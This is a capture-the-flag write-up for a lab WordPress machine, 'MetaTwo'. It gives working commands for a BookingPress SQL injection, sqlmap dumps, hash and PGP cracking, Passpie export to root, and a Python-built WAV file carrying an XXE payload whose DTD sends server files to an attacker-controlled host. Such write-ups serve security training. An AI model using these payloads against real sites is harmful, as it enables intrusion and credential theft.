







```
    ███╗   ███╗███████╗████████╗ █████╗ ████████╗██╗    ██╗ ██████╗
    ████╗ ████║██╔════╝╚══██╔══╝██╔══██╗╚══██╔══╝██║    ██║██╔═══██╗
    ██╔████╔██║█████╗     ██║   ███████║   ██║   ██║ █╗ ██║██║   ██║
    ██║╚██╔╝██║██╔══╝     ██║   ██╔══██║   ██║   ██║███╗██║██║   ██║
    ██║ ╚═╝ ██║███████╗   ██║   ██║  ██║   ██║   ╚███╔███╔╝╚██████╔╝
    ╚═╝     ╚═╝╚══════╝   ╚═╝   ╚═╝  ╚═╝   ╚═╝    ╚══╝╚══╝  ╚═════╝

    ┌──────────────────────────────────────────────────────────────────────────────┐
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │░  ██████╗ ███████╗███╗   ██╗███████╗████████╗██████╗  █████╗ ████████╗██╗ ██████╗ ███╗   ██╗ ░│
    │░  ██╔══██╗██╔════╝████╗  ██║██╔════╝╚══██╔══╝██╔══██╗██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║ ░│
    │░  ██████╔╝█████╗  ██╔██╗ ██║█████╗     ██║   ██████╔╝███████║   ██║   ██║██║   ██║██╔██╗ ██║ ░│
    │░  ██╔═══╝ ██╔══╝  ██║╚██╗██║██╔══╝     ██║   ██╔══██╗██╔══██║   ██║   ██║██║   ██║██║╚██╗██║ ░│
    │░  ██║     ███████╗██║ ╚████║███████╗   ██║   ██║  ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║ ░│
    │░  ╚═╝     ╚══════╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝ ░│
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │            W O R D P R E S S   //   E X P L O I T A T I O N                  │
    └──────────────────────────────────────────────────────────────────────────────┘
```

<div align="center">


</div>

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  ATTACK VECTORS                                                                  ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  [+] WordPress Enumeration & Vulnerability Scanning                              ║
║  [+] BookingPress SQL Injection (CVE-2022-0739)                                  ║
║  [+] WordPress Hash Cracking with Hashcat                                        ║
║  [+] XML External Entity Injection (CVE-2021-29447)                              ║
║  [+] File Disclosure via Crafted WAV Upload                                      ║
║  [+] FTP Enumeration & Credential Harvesting                                     ║
║  [+] PGP Private Key Cracking with John the Ripper                               ║
║  [+] Passpie Password Manager Exploitation                                       ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## TABLE OF CONTENTS

- [>_ TARGET ACQUISITION](#-target-acquisition)
- [>_ INITIAL RECONNAISSANCE](#-initial-reconnaissance)
- [>_ WEB ENUMERATION](#-web-enumeration)
- [>_ FOOTHOLD // SQL INJECTION](#-foothold--sql-injection)
- [>_ XXE FILE DISCLOSURE](#-xxe-file-disclosure)
- [>_ FTP ENUMERATION](#-ftp-enumeration)
- [>_ INITIAL ACCESS](#-initial-access)
- [>_ PRIVILEGE ESCALATION](#-privilege-escalation)
- [>_ SYSTEM ACCESS OBTAINED](#-system-access-obtained)
- [>_ CREDENTIALS VAULT](#-credentials-vault)
- [>_ MITRE ATT&CK MAPPING](#-mitre-attck-mapping)

---

## >_ TARGET ACQUISITION

```
┌─────────────────────────────────────────────────────────────────────────────────┐
│  T A R G E T   I N F I L T R A T I O N   P A R A M E T E R S                   │
├─────────────────────────────────────────────────────────────────────────────────┤
│  IP ADDRESS........: 10.10.11.186                                               │
│  HOSTNAME..........: metapress.htb                                              │
│  DOMAIN............: metapress.htb                                              │
│  OPERATING SYSTEM..: Debian 11 (Linux 5.10.0-19-amd64)                          │
│  DIFFICULTY........: Easy                                                       │
│  ATTACK SURFACE....: WordPress Web Application                                  │
│  KEY SERVICES......: FTP, SSH, HTTP (nginx)                                     │
└─────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ INITIAL RECONNAISSANCE

### NETWORK SCANNING // RUSTSCAN + NMAP

Add target to `/etc/hosts`:

```bash
echo "10.10.11.186     metapress.htb" | sudo tee -a /etc/hosts
```

Comprehensive port scan:

```bash
rustscan -a $RHOST --ulimit 5000 -r 1-65535 -- -A -oA HTB-MetaTwo-Scan
```

**Scan Results:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD Server (Debian)
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
80/tcp open  http    nginx 1.18.0
```

**Critical Ports Identified:**

| Port | Service | Significance |
|------|---------|--------------|
| 21 | FTP | ProFTPD (Debian) - Requires credentials |
| 22 | SSH | OpenSSH 8.4p1 Debian - Standard SSH service |
| 80 | HTTP | nginx 1.18.0 - Redirects to metapress.htb |

```
┌──────────────────────────────────────────────────────────────────────┐
│  KEY FINDINGS                                                        │
├──────────────────────────────────────────────────────────────────────┤
│  [+] HTTP redirects to metapress.htb - WordPress site                │
│  [+] FTP service available - credentials needed                      │
│  [+] Debian 11 system with standard services                         │
└──────────────────────────────────────────────────────────────────────┘
```

---

## >_ WEB ENUMERATION

### WORDPRESS VULNERABILITY SCANNING

```bash
wpscan --url http://metapress.htb/ --api-token $API -e
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  CRITICAL VULNERABILITIES IDENTIFIED                                             ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  WordPress Version: 5.6.2 (Insecure, released 2021-02-22)                       ║
║                                                                                  ║
║  CVE-2021-29447 - XXE in Media Library (PHP 8)                                  ║
║  - Authenticated XXE affecting PHP 8                                             ║
║  - Can read arbitrary files via crafted WAV file                                 ║
║                                                                                  ║
║  CVE-2022-0739 - BookingPress SQL Injection                                     ║
║  - Unauthenticated SQLi in BookingPress < 1.0.11                                ║
║  - Can extract database credentials and hashes                                   ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

> **Figure 1:** Website homepage showing MetaPress corporate site


> **Figure 2:** Technology stack analysis via Wappalyzer


> **Figure 3:** Events page with BookingPress plugin vulnerable to SQLi


---

## >_ FOOTHOLD // SQL INJECTION

### VULNERABILITY ANALYSIS // CVE-2022-0739

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  VULNERABILITY IDENTIFIED                                                        ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  TYPE......: BookingPress Unauthenticated SQL Injection                         ║
║  CVE.......: CVE-2022-0739                                                       ║
║  SEVERITY..: CRITICAL                                                            ║
║  IMPACT....: Database enumeration, credential extraction                        ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

> **Figure 4:** BookingPress SQLi vulnerability reference


> **Figure 5:** Proof of concept documentation


### MANUAL SQL INJECTION TEST

First, obtain the nonce value from the page source:

```bash
curl -s http://metapress.htb/ | grep "wpnonce"
```

> **Figure 6:** Finding wpnonce value in page source


Test SQL injection manually:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=6cf26b4ef7&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

**Response confirms vulnerability:**

```json
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu"...}]
```

### SQLMAP EXPLOITATION

Enumerate databases:

```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" \
  --data="action=bookingpress_front_get_category_services&_wpnonce=6cf26b4ef7&category_id=33&total_service=1" \
  -p total_service \
  --batch \
  --dbs \
  --level=5 \
  --risk=3
```

**Databases found:** `blog`, `information_schema`

Dump wp_users table:

```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" \
  --data="action=bookingpress_front_get_category_services&_wpnonce=6cf26b4ef7&category_id=33&total_service=1" \
  -p total_service \
  --level=5 \
  --risk=3 \
  -D blog \
  -T wp_users \
  --dump
```

**WordPress users extracted:**

```
admin:$P$[REDACTED]
manager:$P$[REDACTED]
```

### HASH CRACKING

> **Figure 7:** Hash identification showing WordPress phpass format (mode 400)


```bash
hashcat -m 400 wpUsers.hash --wordlist wordlists/rockyou.txt --username
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  PASSWORD CRACKED                                                                ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: manager                                                               ║
║  PASSWORD: [REDACTED]                                                            ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ XXE FILE DISCLOSURE

### VULNERABILITY ANALYSIS // CVE-2021-29447

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  VULNERABILITY IDENTIFIED                                                        ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  TYPE......: WordPress XXE in Media Library                                      ║
║  CVE.......: CVE-2021-29447                                                      ║
║  SEVERITY..: CRITICAL                                                            ║
║  IMPACT....: Arbitrary file read, credential disclosure                         ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

### CREATING THE XXE PAYLOAD

Create evil.dtd file:

```bash
cat > evil.dtd << 'EOF'
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.16:8080/?p=%file;'>" >
EOF
```

Create payload.wav with proper WAV structure:

```python
python3 << 'EOF'
import struct

# XXE payload
xxe_payload = b"""<?xml version='1.0'?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM 'http://10.10.16.16:8080/evil.dtd'>
%remote;%init;%trick;
]>"""

# Build proper WAV structure
riff = b'RIFF'
wave = b'WAVE'
fmt_chunk = b'fmt ' + struct.pack('<I', 16) + struct.pack('<HHIIHH', 1, 2, 44100, 176400, 4, 16)

# Embed XXE in iXML chunk
ixml = b'iXML' + struct.pack('<I', len(xxe_payload)) + xxe_payload

# Padding if needed
if len(xxe_payload) % 2:
    ixml += b'\x00'

# Calculate total size
total_size = 4 + len(fmt_chunk) + len(ixml)
header = riff + struct.pack('<I', total_size) + wave

with open('payload.wav', 'wb') as f:
    f.write(header + fmt_chunk + ixml)
EOF
```

Start HTTP server to receive callbacks:

```bash
python3 -m http.server 8080
```

> **Figure 8:** WordPress Media Upload interface for XXE exploitation


### EXTRACTING /ETC/PASSWD

Upload payload.wav to WordPress Media Library as manager user. The HTTP server receives base64 encoded file content.

Decode the received data:

```bash
echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2Jpbjov..." | base64 -d
```

**User discovered:**

```
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
```

### EXTRACTING WP-CONFIG.PHP

Update evil.dtd to target WordPress configuration:

```bash
cat > evil.dtd << 'EOF'
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.16:8080/?p=%file;'>" >
EOF
```

Upload payload.wav again and decode the response:

```bash
echo "PD9waHANCi8qKiBUaGUgbmFtZSBvZiB0aGUgZGF0YWJhc2UgZm9yIFdvcmRQcmVzcyAqLw0KZGVmaW5l..." | base64 -d
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  FTP CREDENTIALS DISCOVERED                                                      ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  define( 'DB_PASSWORD', '[REDACTED]' );                                          ║
║  define( 'FTP_USER', 'metapress.htb' );                                          ║
║  define( 'FTP_PASS', '[REDACTED]' );                                             ║
║  define( 'FTP_HOST', 'ftp.metapress.htb' );                                      ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ FTP ENUMERATION

### ACCESSING FTP SERVICE

```bash
ftp 10.10.11.186
```

```
Name: metapress.htb
Password: [REDACTED]
```

**FTP directory structure:**

```
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer
```

Navigate to mailer directory:

```
ftp> cd mailer
ftp> ls
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
```

Download and analyze send_email.php:

```bash
ftp> get send_email.php
```

**File contents reveal SSH credentials:**

```php
<?php
use PHPMailer\PHPMailer\PHPMailer;
// ...
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "[REDACTED]";
$mail->SMTPSecure = "tls";
$mail->Port = 587;
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  SSH CREDENTIALS DISCOVERED                                                      ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: jnelson                                                               ║
║  PASSWORD: [REDACTED]                                                            ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ INITIAL ACCESS

### SSH CONNECTION

```bash
ssh jnelson@metapress.htb
```

```bash
jnelson@meta2:~$ ls
user.txt

jnelson@meta2:~$ cat user.txt
[REDACTED]
```

---

## >_ PRIVILEGE ESCALATION

### SYSTEM ENUMERATION

```bash
jnelson@meta2:~$ ls -lah
total 32K
drwxr-xr-x 4 jnelson jnelson 4.0K Oct 25  2022 .
drwxr-xr-x 3 root    root    4.0K Oct  5  2022 ..
lrwxrwxrwx 1 root    root       9 Jun 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jnelson jnelson  220 Jun 26  2022 .bash_logout
-rw-r--r-- 1 jnelson jnelson 3.5K Jun 26  2022 .bashrc
drwxr-xr-x 3 jnelson jnelson 4.0K Oct 25  2022 .local
dr-xr-x--- 3 jnelson jnelson 4.0K Oct 25  2022 .passpie
-rw-r--r-- 1 jnelson jnelson  807 Jun 26  2022 .profile
-rw-r----- 1 root    jnelson   33 Jan 14 21:04 user.txt
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  PRIVILEGE ESCALATION VECTOR IDENTIFIED                                          ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  TYPE......: Weak PGP Passphrase in Passpie Password Manager                    ║
║  SEVERITY..: CRITICAL                                                            ║
║  IMPACT....: Passpie stores encrypted passwords protected by PGP key            ║
║              Cracking the passphrase reveals all stored credentials              ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

### EXTRACTING PGP KEYS

```bash
jnelson@meta2:~$ cd .passpie
jnelson@meta2:~/.passpie$ ls -al
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .
drwxr-xr-x 4 jnelson jnelson 4096 Oct 25  2022 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25  2022 ssh
```

Copy .keys file to attacker machine:

```bash
scp jnelson@10.10.11.186:/home/jnelson/.passpie/.keys ./keys
```

### CRACKING PGP PASSPHRASE

Convert PGP private key to John format:

```bash
gpg2john keys > priv-key.hash
```

Crack with John the Ripper:

```bash
john priv-key.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort

[REDACTED]       (Passpie)
1g 0:00:00:01 DONE (2026-01-14 23:02)
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  PGP PASSPHRASE CRACKED                                                          ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  PASSPHRASE: [REDACTED]                                                          ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

### EXPORTING PASSPIE CREDENTIALS

```bash
jnelson@meta2:~/.passpie$ passpie export ~/password.db
Passphrase: [REDACTED]

jnelson@meta2:~$ cat ~/password.db
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode '[REDACTED]'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode '[REDACTED]'
handler: passpie
version: 1.0
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  ROOT PASSWORD OBTAINED                                                          ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: root                                                                  ║
║  PASSWORD: [REDACTED]                                                            ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ SYSTEM ACCESS OBTAINED

### ROOT ACCESS

```bash
jnelson@meta2:~$ su root
Password: [REDACTED]

root@meta2:~# id
uid=0(root) gid=0(root) groups=0(root)

root@meta2:~# cat root.txt
[REDACTED]
```

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ███████╗██╗   ██╗███████╗████████╗███████╗███╗   ███╗                           ║
║   ██╔════╝╚██╗ ██╔╝██╔════╝╚══██╔══╝██╔════╝████╗ ████║                           ║
║   ███████╗ ╚████╔╝ ███████╗   ██║   █████╗  ██╔████╔██║                           ║
║   ╚════██║  ╚██╔╝  ╚════██║   ██║   ██╔══╝  ██║╚██╔╝██║                           ║
║   ███████║   ██║   ███████║   ██║   ███████╗██║ ╚═╝ ██║                           ║
║   ╚══════╝   ╚═╝   ╚══════╝   ╚═╝   ╚══════╝╚═╝     ╚═╝                           ║
║                                                                                   ║
║   root@meta2:~# whoami                                                            ║
║   root                                                                            ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ FLAGS & PROOF OF COMPROMISE

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██╗   ██╗███████╗███████╗██████╗     ███████╗██╗      █████╗  ██████╗           ║
║   ██║   ██║██╔════╝██╔════╝██╔══██╗    ██╔════╝██║     ██╔══██╗██╔════╝           ║
║   ██║   ██║███████╗█████╗  ██████╔╝    █████╗  ██║     ███████║██║  ███╗          ║
